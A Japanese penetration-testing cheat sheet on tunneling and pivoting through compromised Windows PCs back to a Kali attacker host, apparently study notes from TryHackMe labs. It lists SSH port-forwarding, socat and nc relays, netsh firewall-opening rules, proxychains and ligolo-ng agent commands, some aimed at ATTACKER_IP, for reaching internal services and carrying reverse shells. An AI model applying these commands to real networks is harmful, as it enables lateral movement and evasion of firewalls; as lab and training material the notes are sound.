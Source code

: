# トンネリング

## 準備

```shell
# kali上にトンネル専用のユーザー作成、パスワード設定
sudo useradd -m -s /usr/sbin/nologin tunnel
sudo passwd tunnel
sudo nano /etc/ssh/sshd_config
```

ポートフォワード専用設定

```text
Match User tunnel
    PermitOpen any
    ForceCommand echo 'This account can only be used for port forwarding'
    AllowTcpForwarding yes
    X11Forwarding no
    PermitTTY no
```

```shell
# SSH リスタート
sudo systemctl restart ssh
```

### 後始末

```shell
sudo userdel tunnel
```

## ターゲットのローカル Web サーバーに接続

kali からターゲットに SSH 接続でき、ターゲット上のローカル稼働している Web サーバーにアクセスするケース。

```shell
ssh -L 80:localhost:80 <user>@<target-ip>
```

## RDP ポート転送

kali からはターゲットの RDP にアクセスできないが、侵害済の PC からはアクセスでき、かつ侵害済 PC から kali への SSH 接続ができるケース。

```shell
# 侵害済のPCで実行。<kali-port>:<target-ip>:<target-port>
ssh tunneluser@<kali-ip> -R 3389:<target-ip>:3389 -N
```

kali 上でローカルに向けて RDP 接続すると、ターゲットに転送される

```shell
xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

同様に、このようにすると HTTP トンネルになる

```shell
ssh -R 8080:172.20.0.120:80 user@IP1
```

```shell
# kali上から target上の6666ポートにアクセス
# -N : コマンド実行なしでポートフォワードのみ行う
ssh -N -R 6666:localhost:6666 tunnel@10.2.22.182
```

## ローカルポート転送

ターゲットから kali に接続できないが、kali 上のサービスに接続させたいケース。

```shell
# 侵害済のPCで実行
ssh tunneluser@<kali-ip> -L *:80:127.0.0.1:80 -N

# FWルール変更（要管理者）
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

ターゲットから次のように kali のサービスに接続できる

```text
http://<侵害済PCのIP>:80
```

## 複合トンネリング

```shell
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

- kali のローカル 8888 に HTTP リクエストすると、thmdc.za.tryhackme.com:80 に転送される
- 侵害済 PC の 6666 ポートでのリッスンは、kali の 6666 ポートに転送される
- 侵害済 PC の 7878 ポートでのリッスンは、kali の 7878 ポートに転送される

metasploit のエクスプロイトを想定。Web サーバーに HTTP リクエスト、Web サーバーからペイロードのリクエスト、Web サーバーからリバースシェルの接続。

## socat

### RDP 転送

```shell
# kali 上ではなく、侵害済 PC 上にポートを開く
socat TCP4-LISTEN:3389,fork TCP4:<target-ip>:3389

# FWルールが必要
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

### HTTP 転送

```shell
socat TCP4-LISTEN:80,fork TCP4:<kali-ip>:80
```

## 動的ポート転送

プロキシチェーンを使って、任意のコマンドでポート転送する。nmap 等は正しく動作しない可能性がある。

```shell
# 侵害済PC
ssh tunneluser@1.1.1.1 -R 9050 -N

# kali側
proxychains curl http://pxeboot.za.tryhackme.com
```

/etc/proxychains4.conf で指定されているポートと一致させる必要がある

```text
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

## nc

FW で 25 ポートは通らないが、443 ポートは通る場合

```shell
sudo nc -lvnp 443 -c "nc <target-ip> 25"
```

## Firefox

標準の HTTP ポート以外はエラーになってしまうので、ポート制限を解除する

```
about:config
network.security.ports.banned.override
# string
1-9999
```

## ligolo-ng

https://github.com/nicocha30/ligolo-ng/releases

agent, proxy の 2 つをダウンロードする。

kali でプロキシ起動

```sh
# ネットワークインターフェイスを作成する場合は sudo が必要
./proxy -selfcert
```

pivot でエージェント起動、プロキシに接続

```sh
./agent -ignore-cert -connect <PROXY_SERVER_ADDR>:11601 &
```

プロキシでトンネル開始

```sh
ifcreate --name ligolo0

tunnel_start --name ligolo0

# ルート追加（CIDR指定）
add_route --name ligolo0 --route 172.16.5.0/24

del_route --name ligolo0 --route 172.16.5.0/24
```

agent で listen、その agent に 別の agent が connect のようにすることで、ダブル、トリプルのトンネリングも可能。

https://olivierkonate.medium.com/pivoting-made-easy-with-ligolo-ng-17a4a8a539df
